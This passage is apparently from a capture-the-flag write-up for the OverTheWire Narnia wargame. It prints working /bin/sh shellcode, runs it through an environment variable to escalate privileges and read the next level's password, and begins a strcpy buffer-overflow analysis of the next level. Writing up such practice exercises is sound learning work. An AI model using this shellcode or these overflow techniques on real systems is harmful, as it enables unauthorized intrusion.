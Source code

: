 Looks like this one is walking us through putting shellcode in an environment
variable - it checks to see if `EGG` is set and, if so, jumps to its address
and executes its content. I generated a `/bin/sh` shellcode with [pwntools]
shellcraft module on my system.

{% highlight python %}
Python 2.7.12 (default, Nov 19 2016, 06:48:10) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> asm(shellcraft.i386.linux.sh())
'h\x01\x01\x01\x01\x814$ri\x01\x011\xd2Rj\x04Z\x01\xe2R\x89\xe2jhh///sh/binj\x0bX\x89\xe3\x89\xd1\x99\xcd\x80'
>>> 
{% endhighlight %}

We can then put this shellcode in a simple script that prints it to `stdout`,
save it to a tmp directory, and run `narnia1`, passing it our shellcode as an
environment variable.

{% highlight bash %}
narnia1@melinda:/narnia$ EGG=`python /tmp/forgottenwinter/egg.py` ./narnia1 
Trying to execute EGG!
$ id
uid=14001(narnia1) gid=14001(narnia1) euid=14002(narnia2) groups=14002(narnia2),14001(narnia1)
$ cat /etc/narnia_pass/narnia2
XXXXXXXXXX
{% endhighlight %}

Another one down.

## Level2 &rarr; Level3 {#level3}

{% highlight c %}
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
        char buf[128];

        if(argc == 1){
                printf("Usage: %s argument\n", argv[0]);
                exit(1);
        }
        strcpy(buf,argv[1]);
        printf("%s", buf);

        return 0;
}
{% endhighlight %}

This one looks a lot more like a traditional buffer overflow. We've got a 128
byte buffer `buf` and we `strcpy` `argv[1]` directly into it with no bounds
checking. First, let's find how big our input buffer needs to be to give us
control of `eip`.


[Narnia]: http://overthewire.org/wargames/narnia/
[OverTheWire]: http://overthewire.org
[pwntools]: https://github.com/Gallopsled/pwntools